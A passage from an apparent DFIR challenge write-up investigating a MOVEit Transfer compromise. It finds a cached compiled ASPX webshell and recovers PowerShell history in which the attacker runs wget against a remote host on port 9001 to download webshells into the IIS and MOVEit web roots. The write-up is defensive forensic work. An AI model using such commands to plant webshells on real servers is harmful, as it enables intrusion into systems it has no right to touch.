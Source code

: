 
It’s interesting that I find a second file with `move.aspx` in it. This one,
`move.aspx.cdcab7d2.compiled` is where .NET is caching the compiled ASPX file
when it’s used. I’ll note that the timestamp here of 11:24:43 matches the IIS
logs for when the actor first ties to interact with the webshell.

## PowerShell History

### Locate

There are Powershell history files in both the Administrator and moveitsvs
user’s `AppData` directories:

    
    
    oxdf@hacky$ find . -name ConsoleHost_history.txt
    Triage/uploads/auto/C%3A/Users/moveitsvc.WIN-LR8T2EF8VHM.002/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
    Triage/uploads/auto/C%3A/Users/Administrator/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
    

### Data

The administrator’s history only has a single command, `netstat`. The
moveitsvc user’s history seems to have captured some of the commands run by
the attacker:

    
    
    cd C:\inetpub\wwwroot
    wget http://10.255.254.3:9001/moveit.asp
    dir
    wget http://10.255.254.3:9001/moveit.asp -OutFile moveit.asp
    dir
    cd C:\MOVEitTransfer\wwwroot
    wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx
    

So once the actor got execution via the SQL injection, it looks like they used
it to run the PowerShell `wget` command to download both webshells.

## Event Logs

### Process

#### Locate

The event logs on a Windows machine are stored in
`C:\Windows\System32\winevt\Logs`. Luckily, Kape collected those in this
event:
